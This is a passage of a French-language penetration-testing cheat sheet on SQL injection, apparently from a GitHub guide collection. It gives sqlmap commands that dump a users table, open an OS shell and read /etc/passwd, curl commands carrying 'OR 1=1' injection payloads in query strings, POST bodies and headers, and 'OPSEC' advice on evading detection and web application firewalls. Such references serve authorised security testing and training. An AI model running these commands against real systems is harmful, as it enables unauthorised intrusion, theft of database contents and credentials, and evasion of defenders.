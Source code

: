 ```bash

# Dump d'une table spécifique
sqlmap -u "http://target.com/page?id=1" -D database_name -T users --dump

# Shell interactif
sqlmap -u "http://target.com/page?id=1" --os-shell

# Lecture de fichiers
sqlmap -u "http://target.com/page?id=1" --file-read="/etc/passwd"
```

### Tests manuels avec curl
```bash
# Test GET
curl "http://target.com/page?id=1' OR 1=1--"

# Test POST
curl -X POST -d "username=admin' OR 1=1--&password=test" http://target.com/login

# Avec headers personnalisés
curl -H "X-Forwarded-For: 1.1.1.1' OR 1=1--" http://target.com/page
```

## 🛡️ Conseils OPSEC
- Utiliser sqlmap avec les options --delay et --safe-url pour éviter la détection
- Fragmenter les requêtes d'extraction pour éviter les alertes
- Utiliser des WAF bypass techniques quand nécessaire
- Ne jamais modifier ou supprimer des données sans autorisation explicite
- Documenter tous les payloads utilisés pour la reproductibilité

## ⚠️ Erreurs fréquentes
- Oublier de tester tous les paramètres (GET, POST, headers, cookies)
- Ne pas identifier correctement le type de SGBD avant l'exploitation
- Utiliser sqlmap trop agressivement (détectable par les WAF)
- Ignorer les injections blind (plus discrètes mais souvent présentes)
- Ne pas vérifier les privilèges avant de tenter l'élévation

## 💡 Astuces
- Combiner tests manuels et automatisés (sqlmap après identification manuelle)
- Utiliser les commentaires SQL appropriés selon le SGBD (-- vs # vs /**/)
- Tester les injections dans les en-têtes HTTP (User-Agent, X-Forwarded-For)
- Chercher les paramètres cachés avec Burp Param Miner
- Utiliser les time-based quand les autres méthodes échouent

## 🔗 Pour aller plus loin
- [SQLMap Documentation](https://sqlmap.org/)
- [PayloadsAllTheThings - SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [HackTricks - SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

## 🧭 Navigation
- [Guide XSS](./XSS.md)
- [Guide LFI/RFI](./LFI_RFI.md)
- [Retour aux applications web](./README.md) 